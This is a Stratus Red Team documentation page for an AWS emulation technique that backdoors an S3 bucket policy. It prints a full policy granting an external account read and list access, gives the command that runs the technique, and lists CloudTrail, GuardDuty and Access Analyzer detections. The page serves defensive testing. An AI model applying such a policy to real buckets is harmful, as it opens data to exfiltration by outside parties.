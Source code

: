 ```yaml
---
title: Backdoor an S3 Bucket via its Bucket Policy
---
```


# Backdoor an S3 Bucket via its Bucket Policy


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates data from an S3 bucket by backdooring its Bucket Policy to allow access from an external, fictitious AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an S3 bucket.

<span style="font-variant: small-caps;">Detonation</span>: 

- Backdoor the S3 Bucket Policy by setting the following Bucket Policy:

<pre>
<code>
{
  "Version":"2012-10-17",
  "Statement":[
    {
      "Effect": "Allow",
      "Principal": {
        "AWS":"arn:aws:iam::193672423079:root"
      },
      "Action": [
        "s3:GetObject",
        "s3:GetBucketLocation",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::%s/*",
        "arn:aws:s3:::%s"
      ]
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.exfiltration.s3-backdoor-bucket-policy
```
## Detection


- Using CloudTrail's <code>PutBucketPolicy</code> event.

- Through GuardDuty's [Policy:S3/BucketAnonymousAccessGranted](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html#policy-s3-bucketanonymousaccessgranted) finding, 
if the S3 bucket was made public (and not only shared with an attacker-controlled AWS account).

- Through [IAM Access Analyzer](https://docs.aws.amazon.com/AmazonS3/latest/userguide/access-analyzer.html),
which generates a finding when an S3 bucket is made public or accessible from another account.


